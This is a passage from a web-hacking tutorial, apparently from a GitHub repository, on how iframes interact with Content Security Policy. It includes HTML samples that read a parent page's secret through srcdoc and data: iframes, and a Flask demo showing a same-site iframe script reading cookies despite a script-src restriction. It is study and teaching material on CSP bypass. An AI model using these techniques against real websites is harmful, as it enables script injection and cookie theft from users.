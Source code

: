 ```html
var secret="child secret";
alert(parent.secret)
</script>
```
If you access the previous html via a http server (like python3 -m http.server) you will notice that all the scripts will be executed (as there is no CSP preventing it)., the parent won’t be able to access the secret var inside any iframe and only the iframes if2 & if3 (which are considered to be same-site) can access the secret in the original window.
Note how if4 is considered to have null origin.

**Iframes with CSP**

The self value of script-src won’t allow the execution of the JS code using the data: protocol or the srcdoc attribute.
However, even the none value of the CSP will allow the execution of the iframes that put a URL (complete or just the path) in the src attribute.
Therefore it’s possible to bypass the CSP of a page with:
```html
<html>
<head>
 <meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
  <script>
  var secret = "31337s3cr37t";
  </script>
  <iframe id="if1" src="child.html"></iframe>
  <iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```
Note how the previous CSP only permits the execution of the inline script.
However, only if1 and if2 scripts are going to be executed but only if1 will be able to access the parent secret.

![spaces_-L_2uGJGU7AVNRcqRvEi_uploads_5juDb7xa6pEa6sOoW7Ga_image](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/f95c1c69-f089-470c-ab86-5b023b9f27cd)

Therefore, it’s possible to bypass a CSP if you can upload a JS file to the server and load it via iframe even with script-src 'none'. This can potentially be also done abusing a same-site JSONP endpoint.

You can test this with the following scenario were a cookie is stolen even with script-src 'none'. Just run the application and access it with your browser:
```javascript
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
    resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
    resp.headers['Content-Security-Policy'] = "script-src 'self'"
    resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
    return resp

@app.route("/cookie_s.html")
def cookie_s():
    return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
    app.run()
```
